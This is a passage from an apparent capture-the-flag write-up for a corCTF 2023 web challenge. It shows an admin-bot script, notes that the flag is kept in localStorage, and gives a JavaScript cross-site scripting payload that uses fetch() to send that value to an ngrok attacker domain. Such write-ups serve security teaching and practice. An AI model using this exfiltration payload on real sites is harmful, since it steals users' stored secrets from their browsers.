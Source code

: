 ```js
        await page.goto("https://frogshare.be.ax/frogs?wtf=nextjs", { timeout: 5000, waitUntil: 'networkidle0' });
        await page.waitForTimeout(2000);
        await page.goto(url, { timeout: 5000, waitUntil: 'networkidle0' });
        await page.waitForTimeout(5000);
    },
}
```

As you can see, **the flag is being stored at `localStorage`, with key `flag`.**

**Time to exfiltrate the flag!**

**Modify the JavaScript payload:**
```js
fetch('https://2eb1-[...].ngrok-free.app/flag?c='+localStorage.getItem('flag'));
```

This will send a GET request to our Ngrok's port forwarding domain with GET parameter `c`, which includes the localStorage's `flag` key's value.

**For sanity check, refresh the shared frog page:** 

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2023/images/Pasted%20image%2020230731163527.png)
